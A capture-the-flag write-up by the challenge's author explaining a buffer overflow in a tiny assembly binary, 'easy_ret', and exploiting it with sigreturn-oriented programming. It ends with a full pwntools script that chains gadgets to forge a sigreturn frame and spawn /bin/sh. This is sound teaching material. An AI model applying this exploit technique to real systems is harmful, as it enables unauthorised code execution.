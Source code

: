# WriteUP for easy_ret! or is it ? 

This challenge comes with a very basic Assembly program containing very little instructions.
This was made voluntarily as to make ROP harder !

## Info Gathering

As per usual when approaching a pwn challenge, we should check
what kind of protections are applied to this binary

![img](./images/checksec.png)  

In our case we only have NX, which makes our stack **NON EXECUTABLE** meaning no ret2shellcode in this challenge.

Running the binary we get prompted with the message
`This is my perfect assembly program ! Good luck hacking it lol`
after which the program takes our input. Doing a very classical approach we can try to put a very large amount of data and it's input and see that it causes a **SEGFAULT**  

![img](./images/segfault.png)

This is a very big sign of a **buffer overflow** vulnerability. Considering that this challenge does have **NX** on tho, we will have to use some [Return Oriented Programing](https://en.wikipedia.org/wiki/Return-oriented_programming) knowledge to help us out here.  

## Source code analysis

As mentionned earlier, this challenge is PURELY assembly meaning no libc to help us here ! Looking at the source code in radare2 we get the following : 

![img](./images/code.png)

This code does some pretty weird stuff, like clearing the registers for no apparent reasons in a function made for that specific use... Maybe it'll come handy for later tho ! (foreshadowing)  

The main function where most of the activity seems to be centered is the **super_program** function which does exactly what we would expect from our testing :
- Writes the message we got when running the binary to the console
- Reads 1280 bytes into a 32 bytes buffer resulting in a massive buffer overflow

However there's bad news. This binary is VERY small meaning very little gadgets to work with for our ROP payload...
That's when [SigReturn Oriented Programming](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) comes to the rescue !  

Anyways, let's find out the offset to RIP in this scenario. We can calculate by reading the source code or by using some cyclic string tool like the one in gdb-pwndbg. In this case i'll show how to do both:
1. We can calculate the offset from the source code as we can see that the **super_program** function allocates 32 bytes on the stack for our buffer and 
8 bytes are used to store RBP because of the `push rbp` instruction at the start of the function. Therefore 32 + 8 = 40, So a 40 byte offset before we overwrite RIP.

2. Just run the program in gdb and send a cyclic that we can generate using commands like `cyclic 100`. After sending our big cyclic, the program will segfault and return to some value corresponding to our cyclic. We can copy that value and pass it in `cyclic -l <value>` to get the corresponding offset:

![img](./images/offset.png)

## Exploit Idea

Using the **sigreturn** syscall we can load a so called "Sigreturn Frame" from the stack. The Sigreturn Frame structure holds a "screenshot" of a state of the registers making us able to create a "fake" Sigreturn Frame struct and control ALL the registers despite our very small amount of gadgets.

The only thing we need to do to make this work is control **RAX**, the register used, in x64, to specify the code of our syscall.
Sigreturn is syscall n°15 so we have to make it so that somehow RAX is set to 15 when returning to a `syscall` gadget.  

The trick here is to use the fact that we have a `xor rax, rax; ret` gadget in the aforementionned **clear_registers** function. This will allow us to
make a syscall to read (since read is syscall n°0) and a very important property of read is that it returns the amount of data it read from the input into **RAX**. So theoretically we could make a read syscall and send 15 bytes in order to set RAX=15 and then directly return to the syscall gadget AGAIN to trigger **sigreturn**.

Then we could trigger a syscall to `execve` to pop a shell. But hold on ! We need a "/bin/sh" string to pass as argument for execve... Luckily this challenge is a bit nicer on that part as I manually put a "/bin/sh" string inside of the binary at a symbol called *secret* which can be easily found with reversing tools or simply the `strings` command. Note that it is STILL possible to exploit the binary without the string and I also made a "revenge" challenge called `easy_ret_revenge` without the /bin/sh string to show how that can still be possible.

# Exploitation

Alright so first of all let's make a little TO-DO List to remember what we want to do :
1. Get our gadgets, we will need:
    - xor rax, rax; ret 
    - syscall; ret
2. use xor rax to set rax=0 and then jump to a syscall gadget to trigger a read syscall.
3. Send 15 bytes to make read() return 15 into RAX
4. Return to the syscall gadget again thus triggering a sigreturn syscall
5. Add our own fake Sigreturn Frame so that the sigreturn call will make us jump to a state that will run `execve("/bin/sh", NULL, NULL)`
6. Enjoy our shell :D

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

context.log_level = 'error'
context.binary = elf = ELF('../chall')

gs = """
b *super_program
continue
"""
if args.REMOTE:
    io = remote("localhost", 9000) # connects to docker, replace with actual remote if needed
elif args.GDB:
    io = gdb.debug(elf.path, gdbscript=gs)
else:
    io = process()

context.log_level = 'info'

syscall = 0x401012  # syscall; ret
zero_rax = 0x401058 # xor rax, rax; ret
binsh = elf.sym.secret # string containing /bin/sh stored in the binary

offset = 40
payload = flat({offset: [
    zero_rax,
    syscall,
    syscall
]})

info("triggering read syscall with 15 chars to populate rax=15 -> sigreturn syscall")

frame = SigreturnFrame()
frame.rax = 0x3b # execve syscall is number 59 or 3b in hex
frame.rdi = binsh # the address of our /bin/sh string
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
payload += bytes(frame)
info("Pushing execve(\"/bin/sh\", NULL, NULL) sigreturn frame on the stack.")

io.sendline(payload)
sleep(0.5)
io.send(b'A'*15)

context.log_level = 'error'
io.interactive(prompt="shell> ")
io.close()
```

This is the final exploit I came up with doing all of these steps one at a time !
*Note: I had to use sleep() calls because if we ran this too quickly some inputs would get mixed up with each other and the payload wouldn't trigger properly*

When running this exploit script on the remote docker we get the following:
![img](./images/win.png)